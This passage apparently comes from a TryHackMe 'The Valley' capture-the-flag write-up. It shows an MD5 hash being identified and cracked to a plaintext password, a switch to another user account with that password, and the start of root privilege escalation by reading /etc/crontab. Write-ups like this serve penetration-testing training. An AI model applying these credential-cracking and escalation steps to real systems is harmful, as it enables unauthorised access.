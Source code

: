 ```tsx
┌──(kali㉿kali)-[~/TryHackMe/TheValley]
└─$ hash-identifier                                
   #########################################################################
   #     __  __                     __           ______    _____           #
   #    /\ \/\ \                   /\ \         /\__  _\  /\  _ `\         #
   #    \ \ \_\ \     __      ____ \ \ \___     \/_/\ \/  \ \ \/\ \        #
   #     \ \  _  \  /'__`\   / ,__\ \ \  _ `\      \ \ \   \ \ \ \ \       #
   #      \ \ \ \ \/\ \_\ \_/\__, `\ \ \ \ \ \      \_\ \__ \ \ \_\ \      #
   #       \ \_\ \_\ \___ \_\/\____/  \ \_\ \_\     /\_____\ \ \____/      #
   #        \/_/\/_/\/__/\/_/\/___/    \/_/\/_/     \/_____/  \/___/  v1.2 #
   #                                                             By Zion3R #
   #                                                    www.Blackploit.com #
   #                                                   Root@Blackploit.com #
   #########################################################################
--------------------------------------------------
 HASH: e6722920bab2326f8217e4bf6b1b58ac

Possible Hashs:
[+] MD5
[+] Domain Cached Credentials - MD4(MD4(($pass)).(strtolower($username)))
```

Use `hashcat` or any cracking tools to crack the hash → Get the output:

```tsx
e6722920bab2326f8217e4bf6b1b58ac:liberty123
```

Use the above output as the password to login as user `valley`

```tsx
valleyDev@valley:/home$ su valley
Password: 
valley@valley:/home$ id
uid=1000(valley) gid=1000(valley) groups=1000(valley),1003(valleyAdmin)
```

Now it seem we have more permission than before to exploit the machine and become `root` user to get the final flag

# Privilege Escalation → root

```tsx
valleyDev@valley:~$ cat /etc/crontab
# /etc/crontab: system-wide crontab
# Unlike any other crontab you don't have to run the `crontab'
# command to install the new version when you edit this file
# and files in /etc/cron.d. These files also have username fields,
# that none of the other crontabs do.

SHELL=/bin/sh
PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

# Example of job definition:
# .---------------- minute (0 - 59)
# |  .------------- hour (0 - 23)
# |  |  .---------- day of month (1 - 31)
# |  |  |  .------- month (1 - 12) OR jan,feb,mar,apr ...
# |  |  |  |  .---- day of week (0 - 6) (Sunday=0 or 7) OR sun,mon,tue,wed,thu,fri,sat
# |  |  |  |  |
# *  *  *  *  * user-name command to be executed
17 *    * * *   root    cd / && run-parts --report /etc/cron.hourly
25 6    * * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6    * * 7   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
```